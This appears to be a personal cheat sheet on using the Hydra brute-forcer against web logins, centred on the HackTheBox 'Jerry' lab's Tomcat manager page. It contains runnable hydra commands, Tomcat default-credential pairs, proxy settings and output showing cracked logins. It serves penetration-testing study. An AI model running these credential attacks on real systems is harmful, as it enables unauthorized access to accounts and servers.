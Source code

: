 [Basic](#basic)
[Hydra Common Options](#hydra-common-options)
[Username:Password](#usernamepassword)
[Supported Services](#supported-services)

### HTTP

[hydra -U http-get](#hydra--u-http-get) arrangement doesn't matter
[hydra http-post-form -U](#hydra-http-post-form--u)
[HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables](#use-hydra_proxy_http-or-hydra_proxy-environment-variables-for-a-proxy-setup)
[Debug, send Hydra output to Burp](#to-debug-send-hydra-output-to-burp-use-this-in-the-same-line)
[Common Mistakes](#common-mistakes)
[Now you got it right](#now-you-got-it-right)
[Common Mistakes; variables argument needed for http-post-form](#common-mistakes-variables-argument-needed-for-http-post-form)


-----------------------------------------------

### Basic
HTB: ???
```
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html
hydra -U http-get
hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```

# Hydra Common Options
```
-l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
-p PASS  or -P FILE  try password PASS, or load several passwords from FILE
-C FILE   colon separated "login:pass" format, instead of -L/-P options

-U        service module usage details
```

### Username:Password
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown
Save as: labs/htb/_BeginnerTrack/Jerry/creds.txt
```
admin:password
admin:
... snip ...
tomcat:admin
tomcat:changethis
```

### Supported Services
```
Supported services: adam6500 asterisk cisco cisco-enable cobaltstrike cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp
```

### hydra -U http-get
hydra -U http-get
hydra http-get -U
```
$ hydra -U http-get
Help for module http-get:
============================================================================
Module http-get requires the page to authenticate.
The following parameters are optional:
 (a|A)=auth-type   specify authentication mechanism to use: BASIC, NTLM or MD5
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
 (F|S)=check for text in the HTTP reply. S= means if this text is found, a
       valid account has been found, F= means if this string is present the
       combination is invalid. Note: this must be the last option supplied.
For example:  "/secret" or "http://bla.com/foo/bar:H=Cookie\: sessid=aaaa" or "https://test.com:8080/members:A=NTLM"
```

### hydra http-post-form -U
```
$ hydra http-post-form -U
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-15 17:40:15

Help for module http-post-form:
============================================================================
Module http-post-form requires the page and the parameters for the web form.

By default this module is configured to follow a maximum of 5 redirections in
a row. It always gathers a new cookie from the same URL without variables
The parameters requires at a minimum three ":" separated values,
plus optional values.
(Note: if you need a colon in the option string as value, escape it with "\:", but do not escape a "\" with "\\".)

Syntax: <url>:<form parameters>[:<optional>[:<optional>]:<condition string>

First is the page on the server to GET or POST to (URL), e.g. "/login".
Second is the POST/GET variables (taken from either the browser, proxy, etc.)
 without the initial '?' character and the usernames and passwords being
 replaced with "^USER^" ("^USER64^" for base64 encodings) and "^PASS^"
 ("^PASS64^" for base64 encodings).
Third are optional parameters (see below)
Last is the string that it checks for an *invalid* login (by default).
 Invalid condition login check can be preceded by "F=", successful condition
 login check must be preceded by "S=".
 This is where most people get it wrong! You have to check the webapp what a
 failed string looks like and put it in this parameter! Add the -d switch to see
 the sent/received data!
 Note that using invalid login condition checks can result in false positives!

The following parameters are optional and are put between the form parameters
  and the condition string; seperate them too with colons:
 2=                  302 page forward return codes identify a successful attempt
 (c|C)=/page/uri     to define a different page to gather initial cookies from
 (g|G)=              skip pre-requests - only use this when no pre-cookies are required
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
                 ^USER[64]^ and ^PASS[64]^ can also be put into these headers!
                 Note: 'h' will add the user-defined header at the end
                 regardless it's already being sent by Hydra or not.
                 'H' will replace the value of that header if it exists, by the
                 one supplied by the user, or add the header at the end

Note that if you are going to put colons (:) in your headers you should escape
them with a backslash (\). All colons that are not option separators should be
escaped (see the examples above and below).
You can specify a header without escaping the colons, but that way you will not
be able to put colons in the header value itself, as they will be interpreted by
hydra as option separators.

Examples:
 "/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER64^&pass=^PASS64^&colon=colon\:escape:S=result=success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^:H=User-Agent\: wget"
 "/exchweb/bin/auth/:F=failedowaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:C=/exchweb":reason=
```

### Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
```
$ hydra -h
... [snip] ...
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)
... [snip] ...
```

### To debug, send Hydra output to Burp. Use this in the same line
```
HYDRA_PROXY_HTTP=http://localhost:8080 hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'
```

### Common Mistakes
login: admin   password: admin are not the right combination, see the help above
```
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html

[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 2 valid passwords found

```

### Now you got it right
```
$ hydra -C creds.txt http-get://10.10.10.95:8080/manager/html:F='Access Denied'

[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries, ~2 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html:F=Access Denied
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found

```

### Common Mistakes; variables argument needed for http-post-form
```
$ hydra http-post-form://$ip
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-15 17:46:05
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[ERROR] the variables argument needs at least the strings ^USER^, ^PASS^, ^USER64^ or ^PASS64^: (null)
```

### 
Syntax: <url>:<form parameters>[:<optional>[:<optional>]:<condition string>
```

```

### 
```

```

### 
```

```

### 
```

```